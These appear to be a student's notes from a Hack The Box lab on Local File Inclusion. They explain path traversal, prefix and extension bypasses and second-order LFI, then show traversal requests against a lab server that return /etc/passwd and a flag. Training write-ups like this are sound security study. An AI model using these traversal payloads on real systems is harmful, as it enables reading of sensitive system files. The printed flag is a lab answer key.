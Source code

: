 # Local File Inclusion (LFI)

Common readable files :
/etc/passwd
C:\Windows\boot.ini

## Basic case

URL : /index.php?language=es.php
Change to : /index.php?language=/etc/passwd

## Path Traversal

Previous injection with absolute path works if the whole input was used within the include() function :
include($_GET['language']);

If the developer adds a directory such as :
include("./languages/" . $_GET['language']);

Needs to use path transversal :
Based on the default location of web pages : /var/www/html/
../../../../etc/passwd

## Filename Prefix

If the developer adds a prefix such as :
include("lang_" . $_GET['language']);

In that specific case it won't works : lang_../../../etc/passwd

## Appended Extensions

Another very common example is when an extension is appended to the language parameter :
include($_GET['language'] . ".php");

If we inject /etc/passwd it would failed because /etc/passwd.php does not exist

--> We can read PHP files to check source code

## Second-Order Attacks

For example, a web application may allow us to download our avatar through a URL like (/profile/$username/avatar.png). If we craft a malicious LFI username (e.g. ../../../etc/passwd)

-->  we would be poisoning a database entry with a malicious LFI payload in our username

Need to find another web application functionality would utilize this poisoned entry to perform our attack.

This vulnerability stills remain if the developer only protect against direct user input 

## LAB

http://94.237.55.163:43089/index.php?language=en.php

http://94.237.55.163:43089/index.php?language=en.php

http://94.237.55.163:43089/index.php?language=/etc/passwd

--> Failed

http://94.237.55.163:43089/index.php?language=../../../../etc/passwd

root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin mysql:x:101:102:MySQL Server,,,:/nonexistent:/bin/false systemd-timesync:x:102:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin systemd-network:x:103:105:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:104:106:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin messagebus:x:105:107::/nonexistent:/usr/sbin/nologin sshd:x:106:65534::/run/sshd:/usr/sbin/nologin barry:x:1000:1000::/home/barry:/bin/sh

User : barry

http://94.237.55.163:43089/index.php?language=../../../../usr/share/flags/flag.txt

HTB{n3v3r_tru$t_u$3r_!nput}
